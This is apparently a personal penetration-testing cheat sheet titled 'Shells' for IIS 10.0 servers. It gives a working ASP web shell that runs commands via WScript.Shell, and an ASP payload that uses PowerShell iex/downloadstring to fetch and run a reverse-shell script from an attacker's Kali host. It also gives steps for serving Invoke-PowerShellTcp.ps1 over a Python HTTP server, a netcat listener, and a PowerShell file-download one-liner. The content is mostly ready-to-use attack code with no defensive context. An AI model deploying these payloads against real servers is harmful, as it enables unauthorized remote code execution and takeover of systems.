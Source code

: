 ```yaml
---
title: Shells
updated: 2023-11-24 10:26:27Z
created: 2023-11-23 12:53:36Z
latitude: -33.85985000
longitude: 151.20901000
altitude: 0.0000
---
```


# IIS 10.0

## ASP shell
```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Create a powershell script:
**Invoke-PowerShellTcp.ps1**
share via http
`python3 -m http.server`

```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://<kali>:666/shell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
Setup listener
`nc -nlvp 666`

powershell -c iex(new-object net.webclient).downloadstring('http://<kali>:666/shell.ps1')") 
powershell -c (new-object System.Net.WebClient).DownloadFile(‘http://<IP>:<port>/<file>,'<Destination>')